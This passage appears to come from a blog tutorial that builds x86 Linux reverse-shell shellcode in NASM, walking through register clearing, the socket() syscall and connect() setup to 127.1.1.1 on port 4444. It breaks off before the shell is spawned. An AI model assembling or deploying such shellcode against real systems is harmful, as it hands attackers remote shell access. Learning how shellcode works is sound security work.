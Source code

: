
From the list, there are a few similar syscalls from the bind shell, but there are less overall than the bind. Let's jump into creating shellcode based on this C program.


Creating the shellcode from the C program
-----------------------------------------


The first set of instructions are similar to what was used in the bind shell, just clearing out any needed registers:

```nasm
	; set needed registers to zero

	xor eax, eax
	xor ebx, ebx
	xor ecx, ecx
	xor edx, edx
```

Next, the socket syscall will be initiated, as seen in the previous blog post

```nasm
	mov bl, 2	; Setting AF_INET
	mov cl, 1	; Setting SOCK_STREAM
	mov dl, 6	; Setting protocol

	mov ax, 359	; syscall socket()

	int 0x80	; execute socket()
```

Following this, a new syscall will be set up, the `connect()` syscall. Using the methods found in the previous blog, the syscall value to use will be `362`, and we need to give this syscall 3 variables. We will need to set up the address that the shellcode will connect to, in this case being `127.1.1.1` (which is a loopback address that doesn't have any nulls in it, if nulls are present the shellcode breaks); the port that the shellcode will attempt to connect to on the supplied host, in this case being port `4444`; and the type of socket connection being made (same as the socket syscall), in this case being `AF_INET` or the value of `2`.


```nasm
	mov ebx, eax	; Putting sockfd socket value into ebx
	push 0x0101017f	; Setting address to connect to as "127.1.1.1" onto the stack
	push word 0x5c11	; Setting the port to connect to as "4444" onto the stack
	push word 2		; Setting "AF_INET" onto the stack
```

As seen above, the variables are all placed on the stack, and next the address pointing to the top of the stack (`esp`) will be used as a variable so that all three variables will be used in order.

```nasm
mov ecx, esp	; Put the memory address of the top of the stack into ecx, which will contain all the parameters needed for the connect syscall
```

After this, we need to set the `sizeof(addr)` variable. To get this value, we can use part of the C program at the top of this blog, see the snippet below:
